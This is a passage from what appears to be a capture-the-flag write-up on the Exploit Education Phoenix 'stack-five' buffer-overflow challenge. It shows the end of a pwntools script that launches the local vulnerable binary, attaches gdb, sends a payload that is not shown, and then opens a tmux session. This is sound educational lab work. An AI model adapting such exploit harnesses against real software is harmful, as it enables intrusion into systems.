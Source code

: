 ```
#################################################################################
#
# Launching exploit!
print("Launching The Stack Five Exploit!")
#
# The env={} to ensure the execution environment doesn't have any environmental variables
# This is comprehensively explained in the writeup to the "Stack Two" Phoenix challenge
p = process(["stack-five"], env={}, cwd="/opt/phoenix/amd64")
gdb.attach(p,'''
echo "hi"
b start_level
''')
#
# Sending the command-line inputted payload into the executing stack-three process
p.sendline(payload)
#
# Making the process interactive so users can
# interact with the process via its terminal!
p.interactive() 
```

And opening *tmux*
{: style="text-align: justify;"}
```
nathan@nathan-VirtualBox:~/Desktop/Exploit-Education-CTFs/Phoenix/stack-five$ tmux
```

Launching the code, halting at the start of the beginning of the **start_level()** function per the attached, and stepping through to the very end, we get
{: style="text-align: justify;"}
<div style="text-align:center">